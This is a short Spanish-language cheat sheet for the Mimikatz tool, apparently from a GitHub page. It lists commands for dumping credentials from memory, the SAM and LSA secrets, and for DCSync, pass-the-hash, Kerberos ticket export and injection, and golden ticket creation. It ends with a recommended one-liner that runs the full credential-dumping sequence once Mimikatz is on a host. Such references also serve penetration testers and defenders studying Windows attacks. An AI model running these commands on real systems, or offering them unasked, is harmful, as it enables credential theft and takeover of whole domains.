 # Mimikatz

## Comandos básicos
`privilege::debug`
- Eleva privilegios para acceder a procesos protegidos del sistema.

`token::elevate`
- Eleva el token del proceso actual a SYSTEM (si es posible).

`version`
- Muestra la versión de Mimikatz y detalles del sistema operativo.

## Dumpear creds
`sekurlsa::logonpasswords`
- Lista todas las sesiones activas y sus credenciales en memoria (incluye contraseñas y hashes).

`sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:NTHASH /run:COMMAND`
- Inicia un proceso autenticado usando Pass the Hash.

`lsadump::sam`
- Extrae hashes NTLM y LM de cuentas locales desde el archivo SAM.

`lsadump::lsa /patch`
- Extrae secretos LSA del sistema, como contraseñas de servicios y claves de dominio.

`lsadump::dcsync /user:USERNAME`
- Simula una replicación de controlador de dominio (DCSync) para obtener hashes de un usuario específico.

`lsadump::dcsync /all /csv`
- Extrae hashes de todos los usuarios del dominio y los exporta en formato CSV.

## Kerberos

`kerberos::list /export`
- Lista los tickets Kerberos disponibles en memoria y los exporta a archivos .kirbi.

`kerberos::ptt FILE.kirbi`
- Inyecta un ticket Kerberos en la sesión actual.

`kerberos::golden`
- Genera un Golden Ticket para autenticarse como cualquier usuario en el dominio.

### Seguidilla de comandos al conseguir mimikatz recomendada
`.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache""sekurlsa::ekeys" "exit"`